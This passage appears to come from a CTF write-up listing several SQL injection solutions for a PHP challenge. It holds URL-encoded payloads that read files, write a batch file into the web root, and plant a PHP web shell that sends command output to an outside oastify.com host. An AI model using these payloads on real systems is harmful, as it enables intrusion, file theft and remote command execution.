 ```
/index.php?id=33333%27%2520UNION%2520SELECT%2520%27ok%27%252c%2520HEX(LOAD_FILE(%27C%253a%255c%255creadfl~1.exe%27))%252c%2520%27%27%252c%2520%27%27%2520%2523%2520
```

(by trixter)

<br>

**Solution 3** - execution path hijacking by writing `sc.bat`:

```
/index.php?id=0%2527%2520UNION%2520SELECT%25200x0a6364205c202626202e5c72656164666c61675f39613832636630653337646431622e6578650a%252C%2520%2527%2527%252C%2520%2527%2527%252C%2527%2527%2520INTO%2520DUMPFILE%2520%2527C%253A%2Fxampp%2Fhtdocs%2Fsc.bat%2527%2520--%2520
```

(by splitline)

<br>

**Solution 4** - write `config.php` to PEAR directory:

```
/index.php?id='%2520union%2520select%2520'ok'%252c%2540%2540tmpdir%252c'%253c%253fphp%2520define(%2522DBHOST%2522%252c%2522localhost%2522)%253bdefine(%2522DBNAME%2522%252c%2522ginowa%2522)%253bdefine(%2522DBUSER%2522%252c%2522root%2522)%253bdefine(%2522DBPASS%2522%252c%2522%2522)%253bif(%2524_GET%255b%2522ierae9ru09fwqopk%2522%255d)file_get_contents(%2522http%253a%252f%252fehzva3sgua59eq7koimj4ds21t7kvdj2.oastify.com%252f%253f%2522.urlencode(shell_exec(%2524_GET%255b%2522ierae9ru09fwqopk%2522%255d)))%253b%253f%253e'%252c'foo'%2520into%2520outfile%2520'C%253a%252fxampp%252fphp%252fPEAR%252fconfig.php
```

p.s. This trick is really interesting! It's a technique that I wasn't familiar with before.

<br>

... and maybe more?
